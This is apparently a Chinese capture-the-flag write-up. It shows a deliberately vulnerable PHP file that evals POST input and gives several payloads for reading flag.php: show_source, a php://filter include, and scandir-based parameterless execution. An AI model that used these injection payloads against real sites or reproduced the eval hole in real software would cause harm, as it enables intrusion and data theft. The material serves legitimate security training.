






```
<?php

/*
# -*- coding: utf-8 -*-
# @Author: Lazzaro
# @Date:   2020-09-05 20:49:30
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-07 22:02:47
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/

// 你们在炫技吗？
if(isset($_POST['c'])){
        $c= $_POST['c'];
        eval($c);
}else{
    highlight_file(__FILE__);
} 
```


同上


### 第一种

直接show_source()

```
c=show_source("flag.php");
```




highlight_file()

```
c=highlight_file("flag.php");
```




### 第二种

嵌套include

```
c=include$_POST[a]?>&a=php://filter/convert.base64-encode/resource=flag.php
```






### 第三种

参考无参rce

```
c=var_dump(scandir(getcwd()));
```



```
c=show_source(next(array_reverse(scandir(getcwd()))));
```

